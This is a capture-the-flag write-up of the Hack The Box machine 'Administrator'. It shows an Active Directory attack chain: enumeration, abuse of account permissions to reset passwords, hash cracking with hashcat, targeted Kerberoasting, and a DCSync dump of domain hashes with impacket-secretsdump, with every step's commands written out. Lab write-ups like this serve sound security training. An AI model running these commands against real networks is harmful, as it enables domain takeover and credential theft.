<h1>HTB: Administrator</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/Administrator)       |
| Difficulty | Medium                                                           |
| OS         | Windows                                                          |
| Author     | ByteFragment                                                     |
| Date       | July 22nd 2026                                                   |

--- 

*  For this box we start off with credentials <b>Username: Olivia Password: ichliebedich</b>

<h2>Enumeration</h2>

Before we do anything lets create three files:

1. <b>credentials.txt</b> where we will store valid username/passwd combinations
2. <b>users.txt</b> where we will store all usernames we come across
3. <b>pass.txt</b> where we will store all passwords we come across

Having separate files for usernames and passwords in addition to a valid credentials file helps us enumerate for things like password reuse.

Lets add the Olivia user and their password to these respective files.

<h3>NMAP</h3>

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.232.130 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

From the nmap results, we can see that the target machine is running an `ftp` server on port 21, a `dns server` on port 53, `ldap` on port 389, `kerberos` on port 88, `smb` share on port 445, and `windows remote management` on port 5985 among other things. We can also see that the Host is named  `DC` and the domain is `administrator.htb` so lets add `dc.administrator.htb` and `administrator.htb` to our /etc/hosts file.

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-23 09:56:51Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
61719/tcp open  msrpc         Microsoft Windows RPC
61724/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
61729/tcp open  msrpc         Microsoft Windows RPC
61732/tcp open  msrpc         Microsoft Windows RPC
61749/tcp open  msrpc         Microsoft Windows RPC
61782/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

```

<h2>Enumeration</h2>

<h3>Evil-WinRM</h3>

Seeing that we are provided credentials and that there is a Windows Remote Management server running it makes sense to try and login to the target machine using `evil-winrm`:

```
evil-winrm -i dc.administrator.htb -u olivia -p ichliebedich
```



Great! So we have access to the system as the user 'Olivia'. Now we can upload and run SharpHound and then download the resulting .json files OR we can use `bloodhound-python` from our attack machine.

<h3>bloodhound-python</h3>

Before running the bloodhound-python command we need to sync our clock with that of the target machine or else we will get an `WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` error. We can do this my running the command:

```
sudo ntpdate -u administrator.htb
```

Then we are all set to run the bloodhound-python command:

```
bloodhound-python -c All -d administrator.htb -u Olivia -p 'ichliebedich' -dc administrator.htb -ns 10.129.41.73
```



From this we can see that bloodhound-python found 11 users, 53 groups, 1 ou (Organizational Unit), and 19 containers.

Then we can start bloodhound and view the data in a slick graphical format.

<h3>BloodHound</h3>

After starting Bloodhound with `bloodhound start` we need to upload the series of .json files:



Once the files are uploaded we can go to the `Explore` tab on the left menu. Here we will search for the `Olivia` user and then right-click and select `Add to Owned` as we have their credentials. 

This is important as it will allow us to use BloodHounds most useful features, its `Cypher Queries`. Bloodhound provides a significant amount of ready to use Queries, the one we are interested here is the `Shortest paths from Owned`. This will give us the shorted attack path from any objects marked as owned, in our case Olivia, to objects of more significance.



Lets run it:



Here we can see that `Olivia` has `GenericAll` permissions over `Michael` meaning that we as the Olivia user can change the Micheal users password and thus obtain their credentials.

Then we see that the `Michael` user has `ForceChangePassword` permission over the `Benjamin` user which would allow us  to change the `Benjamin` users password.

`Benjamin` is a member of the `Share Moderators` group which we may assume has access to the ftp server running on the machine?

Let's start off by gaining access to the `Michael` user by changing their password.

<h2>Lateral Movement</h2>

Changing the `Michael` users password is as easy as running the command:

```
net user michael Password123!
```


Then we can login with these newly changed credentials using `evil-winrm`:




Now we need to change the `Benjamin` users password.

To do this we will first need to upload PowerView.ps1 onto the target machine and import it into our powershell session. This is a very easy task as we have a `evil-winrm` session open and it allows us to upload files using the `upload <FileName>` command as long as the file to be uploaded is in the same directory that you were in when you logged in. 

So making sure `PowerView.ps1` is in the directory we can upload and import it:


Now that it is imported we can begin by creating a PSCredential object by running these two commands:

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('ADMINISTRATOR\michael', $SecPassword)
```

Then we need to create a secure string object for the password we want to change the `Benjamin` users password to:

```
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```

The we are all set to change the password using the command:

```
Set-DomainUserPassword -Identity benjamin -AccountPassword $UserPassword -Credential $Cred
```

At this point we should have access to the `Benjamin` user and thus as a member of the `SHARE MODERATORS` group access to the ftp service.

<h3>FTP</h3>

Using the ftp command we can login and validate the changed credentials:



Listing the contents of the share we see a single `Backup.psafe3` file which we will download using the `GET` command:



Attempting to open the database using `passwordsafe` reveals that it is password protected:



So we will need to attempt to crack it using `Hashcat`.

<h3>Hashcat</h3>

Before we can crack the hash we need to see what hashcat mode id we need to use for a pwsafe file:



So we need to run the command using the `-m 5200` option and argument:

```
hashcat -a 0 -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt
```

The `-a 0` simply indicates its a dictionary attack.



Success! We can now unlock the `Backup.psafe3` file:



The file contains three users, if we right-click on them we can copy their usernames/passwords to the clipboard and then add them to our credentials.txt, user.txt, and password.txt files respectively:



Then we can use `netexec` to enumerate over the usernames and passwords to test them for validity:

```
netexec winrm dc.administrator.htb -u users.txt -p pass.txt --continue-on-success
```

From this we see that the `emily` users credentials are valid!

We can use the to login using `evil-winrm`:



The user.txt flag is located in their Desktop folder.

<h2>Privilege Escalation</h3>

<h3>targetedkerberoast.py</h3>

Going back to our bloodhound we can mark `Emily` as owned and then check their `Outbound Object Controls`:



Here we can see that Emily has `GenericWrite` permissions over the user `Ethan`.

Having this privilege allows us to perform a `targeted kerberoast` attack against the `ethan` user. The GitHub user [ShutdownRepo](https://github.com/ShutdownRepo/targetedKerberoast) has a python script that does just that.

After cloning the repos and installing all the packages in the requirements.txt file we can run perform the attack by running the command:

```
python3 targetedKerberoast.py --dc-ip dc.administrator.htb -d administrator.htb -u emily -p *************** -o ethan.txt
```



Ethan's hash was written to the `ethan.txt` file which we can crack using hashcat.

<h3>Hashcat</h3>

Before we can crack the hash we need to see what hashcat mode id we need to use for a krb5tgs file:



The mode id is `13100` and thus the command to crack the hash using the rockyou wordlist would be:

```
hashcat -m 13100 ethan.txt /usr/share/wordlists/rockyou.txt
```



Success! We not have valid creds for the ethan user, lets go back to bloodhound and mark them as owned.

Checking the `Ethan` users `Outbound Object Controls` we see they have the `GetChanges` permission over the `ADMINISTRATOR.HTB` Active Directory Domain:



This can be exploited to perform a `Dsync` attack using `impacket-secretsdump`.

<h3>Impacket-secretsdump</h3>

To dump the hashes we simply run the command:

```
impacket-secretsdump -just-dc ADMINISTRATOR.HTB/ethan@dc.administrator.htb
```



This dumps the administrators hash that we can use to login as the Administrator using evil-winrm:



The root.txt file can be found in the Administrators Desktop directory thus solving the challenge!

